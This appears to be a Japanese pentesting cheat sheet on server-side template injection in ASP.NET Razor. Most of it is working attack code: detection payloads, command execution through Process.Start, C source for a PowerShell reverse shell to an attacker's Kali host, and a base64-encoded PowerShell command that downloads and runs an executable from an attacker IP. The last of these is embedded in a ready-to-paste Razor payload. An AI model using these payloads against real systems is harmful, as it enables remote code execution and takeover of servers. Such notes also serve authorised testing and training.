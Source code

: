 # Server Side Template Injection

Razor ASP.NET

## 脆弱性診断

    ``` c#
        //画面に 49 が返ってくればOK
        @(7*7)
        @() 
        @("{{code}}") 
        //下の方法でいろんなコマンドが実行できる
        @System.Diagnostics.Process.Start("cmd.exe","コマンド");
    ```

## Exploit

* reverse shell
  * msfvenomでexeファイルを作成
  * 下のcのソースを使ってexeを作成して転送(以外と万能)

```c
    #include <windows.h>
    #include <stdio.h>

    int main(){
        system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<kaliのIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
        return 0;
    }
```

  * アプリケーション上で実行させるコマンドの生成

``` powershell
    $command = ' iwr -uri http://<kali ip>/XXX.exe -OutFile C:\Windows\Tasks\XXX.exe; C:\Windows\Tasks\XXX.exe'
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
    $encodedCommand = [Convert]::ToBase64String($bytes)
```

    
作成後はファイル転送してncで待ち受け

  * 作成したコードを貼り付けて実行

``` c#
    @System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc
    IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");
```
